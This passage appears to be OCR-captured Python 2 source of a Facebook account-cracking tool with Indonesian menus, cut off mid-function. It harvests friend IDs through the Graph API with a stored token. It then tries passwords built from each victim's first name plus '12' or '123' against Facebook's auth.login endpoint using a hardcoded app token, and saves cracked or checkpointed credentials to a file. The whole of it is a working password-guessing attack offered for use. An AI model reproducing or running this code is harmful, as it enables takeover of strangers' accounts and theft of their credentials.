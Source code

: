 print"\x1b[1;92m(!)internet"         keluar()     os.system("clear")     print logo     print "----------------------------------------------------"     print "[!]Name: "+nama+"/"                                    print "[!] ID: "+id+"/"     print "[!] Subs: "+sub+"/"     print "----------------------------------------------------"     print "\033[1;32;40m[1] \033[1;33;40m&lt;1>𝗛𝗔𝗖𝗞𝗜𝗡𝗚"         print "\033[1;32;40m[2] \033[1;33;40m&lt;2>𝗨𝗣𝗗𝗔𝗧𝗘 𝗧𝗢𝗢𝗟"                                                                                                                             print "\033[1;32;40m[0] \033[1;33;40m&lt;0> 𝗟𝗢𝗚𝗢𝗨𝗧"     pilih()  def pilih():     unikers = raw_input("\n\033[1;31;40m>>> \033[1;35;40m")     if unikers =="":         print "\x1b[1;91mEeror"         pilih()     elif unikers =="1":        super()     elif unikers =="2":         os.system('clear')         print logo         print "------------------------------------------------"         os.system('git pull origin master')         raw_input('\n\x1b[1;91m[ \x1b[1;97mBack \x1b[1;91m]')         menu()     elif unikers =="0":         jalan('Ok')         os.system('rm -rf login.txt')         keluar()     else:         print "\x1b[1;91mEeror"         pilih()  def super():     global toket     os.system('clear')     try:         toket=open('login.txt','r').read()     except IOError:         print"\x1b[1;91mEeror"         os.system('rm -rf login.txt')         time.sleep(1)         login()     os.system('clear')     print logo     print "\x1b[1;32;40m[1] \033[1;33;40m&lt;1&lt;𝗛𝗔𝗖𝗞𝗜𝗡𝗚 𝗙𝗥𝗘𝗜𝗡𝗗"     print "\x1b[1;32;40m[2] \033[1;33;40m&lt;2>𝗛𝗔𝗖𝗞𝗜𝗡𝗚 𝗜𝗗"     print "\x1b[1;32;40m[3] \033[1;33;40m&lt;3>𝗪𝗢𝗥𝗟𝗗 𝗟𝗜𝗦𝗧"     print "\x1b[1;32;40m[4] \033[1;33;40m&lt;4>𝗙𝗜𝗟𝗘"     print "\x1b[1;32;40m[0] \033[1;33;40m&lt;0>𝗕𝗔𝗖𝗞"     pilih_super()  def pilih_super():     peak = raw_input("\n\033[1;31;40m>>> \033[1;35;40m")     if peak =="":         print "\x1b[1;91mEeror"         pilih_super()     elif peak =="1":         os.system('clear')         print logo          jalan('\033[1;93m[✺] wait... \033[1;97m...')         r = requests.get("https://graph.facebook.com/me/friends?access_token="+toket)         z = json.loads(r.text)         for s in z['data']:             id.append(s['id'])      elif peak =="2":         os.system('clear')         print logo         idt = raw_input("\033[1;96m[∞] Total ID: ")         try:             jok = requests.get("https://graph.facebook.com/"+idt+"?access_token="+toket)             op = json.loads(jok.text)             print"\033[1;31;40m[∞] Name : "+op["name"]         except KeyError:             print"\x1b[1;92m[∞] ID Eeror!"             raw_input("\n\033[1;96m[\033[1;94mBack\033[1;96m]")             super()         print"\033[1;35;40m[∞] wait..."         r = requests.get("https://graph.facebook.com/"+idt+"/friends?access_token="+toket)         z = json.loads(r.text)         for i in z['data']:             id.append(i['id'])     elif peak =="3":         os.system('clear')         print logo         brute()         elif peak =="4":         os.system('clear')         print logo                           try:             idlist = raw_input('\x1b[1;96m[+] \x1b[1;93m&lt;&lt;/>>&lt;&lt;/>>&lt;&lt;/>> \x1b[1;91m: \x1b[1;97m')             for line in open(idlist,'r').readlines():                 id.append(line.strip())         except IOError:             print '\x1b[1;35;40m[!] \x1b[1;35;40mEeror'             raw_input('\n\x1b[1;35;40m[ \x1b[1;35;40mBack \x1b[1;35;40m]')             super()     elif peak =="0":         menu()     else:         print "\x1b[1;91mEeror"         pilih_super()           print "\033[1;36;40m[∞] 𝗔𝗟𝗟 𝗜𝗗 : \033[1;94m"+str(len(id))     jalan('\033[1;34;40m[∞] 𝗦𝗧𝗔𝗥𝗧𝗜𝗡𝗚 ...')     titik = ['.   ','..  ','... ']     for o in titik:         print("\r\033[1;32;40m[∞] Loading\033[1;93m"+o),;sys.stdout.flush();time.sleep(1)     print ":)"     print "&lt;PLEASE>"      jalan('          \033[1;91mWAIT 10min________30min')     print  "---------------------------------------------------"       def main(arg):         global cekpoint,oks         user = arg         try:             os.mkdir('out')         except OSError:             pass          try:             a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)             b = json.loads(a.text)             pass1 = b['first_name'] + '12'             data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&amp;format=json&amp;sdk_version=2&amp;email="+(user)+"&amp;locale=en_US&amp;password="+(pass1)+"&amp;sdk=ios&amp;generate_session_cookies=1&amp;sig=3f555f99fb61fcd7aa0c44f58f522ef6")             q = json.load(data)             if 'access_token' in q:                 print '\x1b[1;92m\n╔[Very.GOOD] \x1b[1;92m ' + '033[1;35;40m\n║ID: '+ user  + '033[1;35;40m\n║PASS: ' + pass1 + '033[1;35;40m\n╚Name: ' +  b['name']                 oks.append(user+pass1)             else:                 if 'www.facebook.com' in q["error_msg"]:                     print '\x1b[1;36;40m\n╔[sorry.CHECKPOINT]' + '\x1b[1;31m\n║ID: ' + user  + '\x1b[1;31m║PASS: ' + pass1 + '\x1b[1;31m╚Name: ' + b['name']                     cek = open("out/CP.txt", "a")                     cek.write(user+"|"+pass1+"\n")                     cek.close()                     cekpoint.append(user+pass1)                 else:                     pass2 = b['first_name'] + '123'                     data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&amp;format=json&amp;sdk_version=2&amp;email="+(user)+"&amp;locale=en_US&amp;password="+(pass2)+"&amp;sdk=ios&amp;generate_session_cookies=1&amp;sig=3f555f99fb61fcd7aa0c44f58f522ef6")                     q = json.load(data)                     if 'access_token' in q:                         print